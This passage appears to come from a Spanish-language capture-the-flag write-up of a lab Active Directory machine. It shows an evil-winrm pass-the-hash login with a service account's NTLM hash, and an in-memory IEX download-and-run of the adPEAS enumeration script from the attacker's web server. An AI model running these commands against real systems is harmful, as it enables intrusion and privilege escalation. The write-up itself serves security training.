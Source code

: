 Verificaremos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><img src="../../.gitbook/assets/2487_vmware_W2EGEsXwQz.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a través de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.19/adPEAS.ps1")

Invoke-adPEAS
```

<figure><img src="../../.gitbook/assets/2488_vmware_XmvGm1oj2U.png" alt=""><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable pero es manegada por el usuario "ca\_operator@certified.htb".

<figure><img src="../../.gitbook/assets/2489_vmware_5Y0RuR3qIe.png" alt=""><figcaption></figcaption></figure>
